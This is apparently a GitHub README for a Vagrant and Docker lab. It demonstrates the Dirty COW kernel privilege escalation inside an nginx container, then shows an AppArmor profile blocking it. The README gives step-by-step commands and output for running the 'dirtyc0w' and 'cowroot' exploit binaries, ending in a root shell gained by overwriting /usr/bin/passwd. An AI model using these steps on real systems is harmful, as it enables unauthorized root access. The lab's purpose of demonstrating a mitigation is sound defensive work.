 # Dirtyc0w Docker POC

```
Prerequisites:
- Vagrant installed

```

## What the POC entails and why

First let's start with the why ? This POC is going to use the [`dirtyc0w`](https://dirtycow.ninja/) kernel exploit to do privilege escalation inside the standard [`nginx`](https://hub.docker.com/_/nginx/) image. The only modifications
to the image I made is added a non root user lovingly called hacker and the exploit files. To see the make up of the image please see the [`Dockerfile`](https://github.com/scotty-c/dirty-cow-poc/blob/master/dirtyc0w/Dockerfile). Now for the most important part of the POC how to mitigate the attack without patching with an [`AppArmor`](https://docs.docker.com/engine/security/apparmor/) profile. Showing the importance of correct container security.

To build the environment we will build a Vagrant box that is running a Ubuntu 16.04 server, with kernel version 4.4.0-21-generic.This is to mimic a normal server running in either a cloud environment or bare metal.
On the server we will install the latest version of Docker (1.12.3) and set the demon with the following configuration ` -H tcp://127.0.0.1:4243 -H unix:///var/run/docker.sock --ip-forward=true --iptables=true --ip-masq=true\">>/etc/default/docker` These are some default security settings at make sure the daemon is not accessible outside the host etc. Then we copy the [`AppArmor profile`](https://github.com/scotty-c/dirty-cow-poc/blob/master/nginx-docker) to the host OS in the following location `/etc/apparmor.d/containers/docker-nginx` We will run a `apparmor_parser ` to make sure we have a valid profile. We will then build the image with a standard Docker build command `docker build -t scottyc/dirtyc0w .` Then run up our container first container without an AppArmor with the following command `docker run -p 80:80 -d --name nginx scottyc/dirtyc0w` we will then run the exploits with the user hacker we created in the Docker image and we will firstly write to a file root owns as the user hacker then we will gain root access. We will then kill that container and from the very same image we will spawn a second container using the following command `docker run --security-opt "apparmor=docker-nginx" -p 80:80 -d --name nginx scottyc/dirtyc0w`. This time we will apply our AppArmor profile that will stop the exploits from working. 

# How to use

To make this as simple as possible I have automated most of the heavy lifting leaving the user to run only a few command. To run the POC please follow the follwoing instructions. 

Firstly 
``
git clone xxxx && cd xxxx
``
Then run up the environment with the command
```
vagrant up
```
Once the server is built, we will ssh into it
```
vagrant ssh
```
change to the root user
```
sudo -i
```
The first container should be running as pet of the build process, we can check this with
```
docker ps
```
You should get something like
```
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                         NAMES
db86f1c04483        scottyc/dirtyc0w    "nginx -g 'daemon off"   22 seconds ago      Up 19 seconds       0.0.0.0:80->80/tcp, 443/tcp   nginx
```
Now we can log on as the hacker 
```
docker exec -it -u hacker nginx bash
```
In the directory we are logged into we have the following files
```
drwxrwxrwt  2 root root  4096 Nov  7 11:10 .
drwxr-xr-x 41 root root  4096 Nov  7 11:10 ..
-rwxr-xr-x  1 root root 11496 Nov  7 04:52 cowroot
-rwxr-xr-x  1 root root  9880 Nov  7 04:52 dirtyc0w
-r-----r--  1 root root    32 Nov  7 02:28 foo
```
If we cat the file `foo` we see
```
this content is created by root
```
We will now exploit the file `foo`
```
./dirtyc0w foo hacker-was-here
```
It will print out the following to the terminal
```
mmap 7fd0facf4000

madvise 0

procselfmem 1500000000
```
Then we will cat `foo` again
```
hacker-was-here created by root
```
check the permissions again
```
drwxrwxrwt  2 root root  4096 Nov  7 11:10 .
drwxr-xr-x 41 root root  4096 Nov  7 11:10 ..
-rwxr-xr-x  1 root root 11496 Nov  7 04:52 cowroot
-rwxr-xr-x  1 root root  9880 Nov  7 04:52 dirtyc0w
-r-----r--  1 root root    32 Nov  7 02:28 foo
```

The permissions have not changed. Now let's gain root access 
```
./cowroot
```
It will print the following 
```
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 54192
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
```

You will have root access to the container

Now exit the container with `exit` and `exit` again. Then remove it with `docker rm -f nginx`

Now let's run our secure container
```
docker run --security-opt "apparmor=docker-nginx" -p 80:80 -d --name nginx scottyc/dirtyc0w
```
again we will run
```
docker exec -it -u hacker nginx bash
```
Then run the exploits `./dirtyc0w foo hacker-was-here` and `./cowroot` The files will run but no exploits. For fun try to `ping 8.8.8.8` 


# Clean Up

Exit back to your host machines terminal and issue `vagrant destroy`
